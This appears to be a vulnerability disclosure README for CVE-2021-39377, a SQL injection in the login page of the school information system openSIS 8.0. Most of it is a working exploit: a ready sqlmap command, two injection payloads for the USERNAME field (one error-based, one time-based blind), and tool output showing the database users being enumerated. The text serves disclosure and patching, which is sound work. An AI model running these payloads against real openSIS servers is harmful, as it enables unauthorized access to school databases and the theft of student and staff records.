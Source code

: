 # OPENSIS 8.0 SQL INJECTION VULNERABILITY CVE-2021-39377

A SQL Injection vulnerability exists in version 8.0 of openSIS when MySQL (MariaDB) is being used as the application database. A malicious attacker can issue SQL commands to the Mysql (MariaDB) database through the vulnerable username= parameter. 

Vulnerable PHP Page:

index.php - username parameter

Vulnerable Payload

sqlmap "http://localhost:8081/index.php" --users --data="USERNAME=admin&PASSWORD=test1234%21&language=en&log=" --dbms="MySQL" --level=3 --risk=2 

SQL Injection:

http://localhost:8081/index.php             
```
Parameter: USERNAME (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: USERNAME=admin') AND (SELECT 4391 FROM(SELECT COUNT(*),CONCAT(0x71716b7071,(SELECT (ELT(4391=4391,1))),0x716b717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IzoO&PASSWORD=test1234!&language=en&log=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: USERNAME=admin') AND (SELECT 2137 FROM (SELECT(SLEEP(5)))BwzJ)-- sbsL&PASSWORD=test1234!&language=en&log=

[22:35:47] [INFO] testing MySQL
[22:35:47] [INFO] confirming MySQL
[22:35:47] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 7.4.21
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[22:35:47] [INFO] fetching database users
database management system users [3]:
[*] 'mariadb.sys'@'localhost'
[*] 'mysql'@'localhost'
[*] 'root'@'localhost'
```
Discovered by Nathan Johnson, August 2021
